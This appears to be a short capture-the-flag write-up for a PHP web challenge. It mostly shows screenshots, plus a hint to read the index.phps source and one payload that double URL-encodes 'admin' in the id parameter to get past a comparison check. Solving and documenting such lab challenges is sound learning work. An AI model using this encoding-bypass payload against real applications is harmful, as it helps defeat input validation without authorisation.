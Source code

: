 # PHP2

![Screenshot from 2021-07-24 22-54-07](https://user-images.githubusercontent.com/87865134/126874011-7d9de08f-307f-433c-8945-4e032dbcdb33.png)

- Hint: phps
- Request file: `index.phps`

![Screenshot from 2021-07-24 22-55-37](https://user-images.githubusercontent.com/87865134/126874056-702a74ff-e596-4d4a-8e76-37f1a02eb796.png)

- Payload: `?id=%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65`

![Screenshot from 2021-07-24 22-57-56](https://user-images.githubusercontent.com/87865134/126874128-0a19d3b5-3664-481a-aab4-f92ea5a19669.png)
